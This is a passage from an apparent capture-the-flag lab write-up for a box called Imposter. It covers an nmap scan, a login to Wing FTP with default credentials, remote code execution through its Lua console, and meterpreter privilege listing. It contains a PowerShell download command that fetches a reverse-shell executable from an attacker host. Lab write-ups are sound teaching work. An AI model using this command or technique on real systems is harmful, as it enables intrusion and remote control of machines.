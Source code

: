 After running we recieve a shell as SYSTEM.


## IMPOSTER

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 17:32 BST
Nmap scan report for 172.31.1.20
Host is up (0.057s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1036/tcp open  nsstp
1037/tcp open  ams
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 2.44 seconds
```

### WING FTP
Wing FTP is running on port 8080. To log in here we can supply the credentials "admin:password".

From here we can exploit the lua console to get RCE on the machine.

As a note, I did this before on VHL and was able to use the command `os.execute("powershell.exe%20(New-Object%20System.Net.WebClient).DownloadFile('http://10.10.0.64/shell.exe',%20'C:\Windows\Tasks\shell.exe')")` to upload my reverse shell to the box. It wasn't possible in this for whatever reason so I just used the metasploit module for this. After reading write-ups after there is a way to start an ftp service and mount the entire C:/ filesystem to it, which allows you to upload or download files from it, I'll leave a link to that method [here](https://medium.com/@tsustyle/cyberseclabs-imposter-writeup-80eec9102efe).

I won't mention how to use the metasploit module as it's pretty simple, so onto system.


### PRIV ESC
Since we have meterpeter shell from the exploit already, we can run the `getprivs` command to see what kind of privs we have:
```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege
```
